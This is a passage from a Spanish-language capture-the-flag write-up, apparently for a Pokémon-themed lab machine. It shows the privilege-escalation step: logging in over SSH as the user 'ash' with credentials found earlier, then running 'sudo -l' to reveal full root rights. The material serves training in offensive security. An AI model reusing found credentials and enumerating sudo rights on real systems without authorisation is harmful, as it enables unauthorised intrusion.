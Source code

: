 # []($header-1)Escalada de privilegios

Parece ser que tenemos otro usuario y contraseña por lo que inetntamos conectarnos a el por SHH con:

```bash
pokemon@root:~/Videos/Gotta/Catch/Them/ALL!$ ssh ash@10.10.224.44
The authenticity of host '10.10.224.44 (10.10.224.44)' can't be established.
ECDSA key fingerprint is SHA256:mXXTCQORSu35gV+cSi+nCjY/W0oabQFNjxuXUDrsUHI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.224.44' (ECDSA) to the list of known hosts.
ash@10.10.224.44's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

84 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Could not chdir to home directory /home/ash: Permission denied
$
```

Nos reporta una consola. En este punto podemos hacer sudo -l para ver los permisos que tiene el usuario: 

```bash
$ sudo -l
[sudo] password for ash: 
Matching Defaults entries for ash on root:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ash may run the following commands on root:
    (ALL : ALL) ALL
```
